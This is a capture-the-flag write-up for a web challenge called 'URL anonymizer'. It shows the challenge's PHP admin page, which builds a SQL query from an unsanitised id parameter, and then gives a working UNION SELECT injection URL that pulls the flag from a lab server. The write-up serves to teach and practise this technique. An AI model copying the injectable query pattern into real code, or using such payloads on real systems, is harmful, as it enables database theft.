


# URL anonymizer (web, 200p)

###ENG
[PL](#pl-version)

In description of the task we got URI pointing to source of admin.php and information that the application provides URL shortening functionality.
Source of file : http://10.13.37.12/admin.php?source

```php
<?php
include_once('config.php');

if(isset($_GET['source']) && $_SERVER['SCRIPT_FILENAME'] == __FILE__) {
    highlight_file(__FILE__);
    die();
}

//lazy admin approach to "authenticate"
if($_SERVER['REMOTE_ADDR'] !== '127.0.0.1') {
    //die('You are not allowed.');
}

$title      = '';
$content = '';
$page    = @$_REQUEST['page'];
        
switch($page) {
    case '':
    default:
        
    break;
    case 'reports':
        $title = 'Reports';
        $q = $db->query('SELECT * FROM `reports` where view=0');
        while($row = $q->fetch_array()) {
            $content .= '<div class="r"><a href="http://localhost/admin.php?page=report&id='.$row['hash'].'">Report '.$row['id'].'</a><a href="http://localhost/admin.php?page=hide&id='.$row['id'].'">Hide</a></div>';
        }
    break;
    case 'hide':
        $id = intval(@$_REQUEST['id']);
        $db->query('UPDATE reports set view=1 where id='.$id);
    break;
    case 'report':
        if(isset($_GET['id'])) {
            $r        = $db->query('SELECT * FROM `urls` where hash="'.$_GET['id'].'"');
            $r        = $r->fetch_array();
            $content .= 'Clicked: '.(intval($r['hits'])>0?'Yes':'No');
            $content .= '<br>Reported URL: '.$r['url'];
            $db->query('UPDATE reports SET view=1 WHERE hash="'.$db->real_escape_string($_GET['id']).'"');
        }else {
            die('Invalid Request.');
        }
    break;
}
echo showContent($title, $content);
```

In general, we can see two different views , one where we can submit URL to be shortened


and the other place where we can submit wrongly working URL


However, the most interesting part is the admin.php and we can see that inside 'report' section we have unsanitized SQL Injection, therefore we try to reach this URL with already prepared query (UNION SELECT) and get in response :
URL : http://10.13.37.12/admin.php?page=report&id=1%22%20UNION%20SELECT%201,2,flag,4%20from%20flag%20where%201=%221



flag : DCTF{30bce3bb3c2b030c1480179046409729}

###PL version
